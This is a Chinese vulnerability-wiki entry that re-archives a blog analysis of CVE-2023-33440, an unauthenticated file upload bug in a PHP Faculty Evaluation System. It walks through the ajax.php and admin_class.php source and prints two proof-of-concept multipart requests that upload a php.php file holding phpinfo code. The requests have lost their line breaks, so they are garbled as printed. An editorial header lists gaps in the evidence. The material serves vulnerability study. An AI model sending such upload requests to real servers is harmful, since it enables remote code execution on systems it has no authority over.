







# CVE-2023-33440源码分析

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：oretnom23 Faculty Evaluation System
- 文献类型：源码审计与靶场复现
- 版本、权限及部署边界：文称v1.0；ajax.php update_user/save_user上传img；PHP解析上传目录、匿名路由可达需确认
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 两段HTTP报文所有换行丢失，multipart boundary与字段连在一起，不能按现文直接复现
2. 称未授权但类方法缺少拦截不等于入口全链无认证，需检查ajax入口与包含文件鉴权
3. update_user与save_user为两个相关入口，编号覆盖范围未来源确认，应记录差异而不任意合并
4. 简化请求仍带用户id，可能修改现有账户；上传成功、路径推算和PHP执行证据仅截图
5. 只有SourceCodester源码和付费靶场，缺官方/登记依据、修复信息及确定上传落点；多级列表序号全为1

### 操作风险

update_user与save_user为两个相关入口，编号覆盖范围未来源确认，应记录差异而不任意合并

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html>
- 原文参考链接（未重新核验）：<https://yunjing.ichunqiu.com/cve/detail/1123?pay=2>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

 青春计协   2025-01-20 02:34  
  
# CVE-2023-33440源码分析  
# 免责声明  
> 由于传播、利用本公众号"小妖怪想学安全  
> "所提供的信息而造成的任何直接或者间接的后果及损失,均由使用者本人负责,公众号"小妖怪想学安全"及作者不为此承担任何责任,一旦造成后果请自行承担!如有侵权烦请告知,我们会立即删除并致歉谢谢！  
  
# 0、漏洞描述  
  
oretnom23 的教师评估系统 v1.0 具有未授权文件上传功能  
  
源码下载地址：  
  
https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html  
# 2、CVE编号  
  
CVE-2023-33440  
# 3、源码分析-update_user  
1. 先分析poc  
```
POST /ajax.php?action=update_user HTTP/1.1Host: xxx.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateX-Requested-With: XMLHttpRequestContent-Length: 741Content-Type: multipart/form-data; boundary=---------------------------166782539326470Connection: close-----------------------------166782539326470Content-Disposition: form-data; name="id"1-----------------------------166782539326470Content-Disposition: form-data; name="firstname"Administrator-----------------------------166782539326470Content-Disposition: form-data; name="lastname"a-----------------------------166782539326470Content-Disposition: form-data; name="email"admin@admin.com-----------------------------166782539326470Content-Disposition: form-data; name="password"admin-----------------------------166782539326470Content-Disposition: form-data; name="img"; filename="php.php"Content-Type: application/octet-stream<?php phpinfo();?>-----------------------------166782539326470--
```  
  
  
1. 通过poc可以注意一个三个点：  
  
1. 漏洞是在那个文件产生的：ajax.php  
  
1. 传递的参数：action=update_user  
  
1. 漏洞类型：文件上传  
  
1. 来到下载好的源码中，找到ajax.php，并打开，两个重要的点  
  
  
  
  
1. 包含了：**admin_class.php**  
  
1. 当**action**  
的值为**update_user**  
时就会执行**Action类中大的update_user()方法**  
  
1. 现在来到**admin_class.php**  
，文件，可以看到这个文件里边就有Action这类的源码  
  
  
  
  
1. 现在就直接在这个类里边找，**update_user**  
的源码，实现了文件上传的功能，并且没有任何拦截，并且在传递参数时，如果有id有值就打印整个查询语句  
  
  
  
  
1. 所以现在可以重构一下poc，这样就简单一点了  
```
POST /ajax.php?action=update_user HTTP/1.1Host: xxx.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateX-Requested-With: XMLHttpRequestContent-Length: 312Content-Type: multipart/form-data; boundary=---------------------------166782539326470Connection: close-----------------------------166782539326470Content-Disposition: form-data; name="id"1-----------------------------166782539326470Content-Disposition: form-data; name="img"; filename="php.php"Content-Type: application/octet-stream<?php phpinfo();?>-----------------------------166782539326470--
```  
  
  
# 4、源码分析-save_user  
1. 在ajax.php文件中还有一个**save_user**  
，值也一样存在相同的漏洞  
  
  
  
1. 直接来到**admin_class.php**  
，的**save_user**  
方法，和上边是一样的  
  
  
  
  
1. 这里和上边不一样的点就是，不会打印文件名，但是这个文件名是通过时间戳生产的  
  
# 5、复现  
1. 直接去春秋云境：https://yunjing.ichunqiu.com/cve/detail/1123?pay=2  
  
搜索该漏洞编号即可进行复现  
  
1. 发包  
  
  
  
  
1. 访问上传的文件  
  
  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
